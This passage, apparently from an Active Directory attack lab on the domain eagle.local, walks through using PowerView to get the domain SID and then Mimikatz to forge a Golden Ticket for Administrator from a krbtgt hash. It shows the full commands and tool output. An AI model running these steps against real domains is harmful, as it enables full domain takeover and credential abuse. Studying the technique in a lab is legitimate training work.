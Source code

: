 Next in any PowerShell for the `SID`:

```PS C:\Users\bob\Downloads> powershell -exec bypass

Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\bob\Downloads> . .\PowerView.ps1
PS C:\Users\bob\Downloads> Get-DomainSID
S-1-5-21-1518138621-4282902758-752445584
```

Now, armed with all the required information, we can use `Mimikatz` to create a ticket for the account `Administrator`. The `/ptt` argument makes `Mimikatz` [pass the ticket into the current session](https://adsecurity.org/?page_id=1821#KERBEROSPTT):

```PowerShell
C:\Mimikatz>mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # kerberos::golden /domain:eagle.local /sid:S-1-5-21-1518138621-4282902758-752445584 /rc4:db0d0630064747072a7da3f7c3b4069e /user:Administrator /id:500 /renewmax:7 /endin:8 /ptt

User      : Administrator
Domain    : eagle.local (EAGLE)
SID       : S-1-5-21-1518138621-4282902758-752445584
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: db0d0630064747072a7da3f7c3b4069e - rc4_hmac_nt
Lifetime  : 13/10/2022 06.28.43 ; 13/10/2022 06.36.43 ; 13/10/2022 06.35.43
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ eagle.local' successfully submitted for current session
```

We can verify `Mimikatz` injected the ticket to the cirrent sessions (`/ppt`) by running the command `klist`:
```PowerShell
C:\Mimikatz>klist

Current LogonId is 0:0x9cbd6

Cached Tickets: (1)

#0>     Client: Administrator @ eagle.local
        Server: krbtgt/eagle.local @ eagle.local
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 10/13/2022 13/10/2022 06.28.43 (local)
        End Time:   10/13/2022 13/10/2022 06.36.43 (local)
        Renew Time: 10/13/2022 13/10/2022 06.35.43 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
```
